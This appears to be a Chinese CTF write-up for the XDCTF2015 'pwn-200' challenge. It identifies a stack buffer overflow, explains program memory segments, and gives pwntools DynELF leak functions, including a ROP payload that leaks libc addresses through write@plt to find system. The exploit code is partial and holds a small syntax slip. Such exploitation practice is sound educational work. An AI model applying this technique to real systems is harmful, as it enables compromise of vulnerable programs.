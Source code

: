 ```c
}
```

其中buf的大小为0x6C，小于第三个参数，因此存在缓冲区溢出漏洞。

本题没有给出system的plt地址和/bin/sh，且没有libc，需要自己构造。

2、各段的含义

①bss段：通常指用来存放程序中未初始化的全局变量和静态变量的一块内存区域，可读写的，在程序执行之前BSS段会自动清0。

②data段：该段用于存储初始化的全局变量，初始化为0的全局变量出于编译优化的策略被保存在BSS段。

③ro段：常量区，用于存放常量数据

④text段：用于存放程序代码的

⑤stack段：栈段，常说的堆栈段之中的一个，由系统负责申请释放

⑥heap段：俗称的堆，由用户申请和释放。申请时至少分配虚存，当真正存储数据时才分配对应的实存，释放时也并不是马上释放实存，而是可能被反复利用。

3、无libc的情况下，通过pwntools中的DynELF模块泄漏地址信息，给出[实现DynELF关键函数leak的方法](https://blog.csdn.net/u011987514/article/details/68490157)

```python
	p = process('./xxx')
	def leak(address):
	  payload = "xxxxxxxx" + address + "xxxxxxxx"
	  p.send(payload)
	  data = p.recv(4)
	  log.debug("%#x => %s" % (address, (data or '').encode('hex')))
	  return data
	d = DynELF(leak, elf=ELF("./xxx"))      #初始化DynELF模块 
	systemAddress = d.lookup('system', 'libc')  #在libc文件中搜索system函数的地址
```
其中，address就是leak函数要泄漏信息的所在地址，而payload就是触发目标程序泄漏address处信息的攻击代码。

该方法是在内存中搜索信息，需要目标二进制文件中存在能够泄漏目标系统内存中libc空间内信息的漏洞。条件：

1）目标程序存在可以泄露libc空间信息的漏洞，如read@got就指向libc地址空间内；

2）目标程序中存在的信息泄露漏洞能够反复触发，从而可以不断泄露libc地址空间内的信息。

4、回归到本题，本题没有给出 libc，要泄露需要用到 DynELF
```python
def leak(address):    
	payload = 'A' * 0x6C + '9527' + p32(write_plt) + p32(0x080483D0) + p32(1) + p32(address) + p32(4)    
	p.sendlineafter('Welcome to XDCTF2015~!\n', payload)    
	data = p.recv(4)    
	return data
...
if __name__ = '__main__':    
...    
	d = DynELF(leak, elf=ELF('./pwn-200'))    
	sys_addr = d.lookup('__libc_system','libc')    
...
```

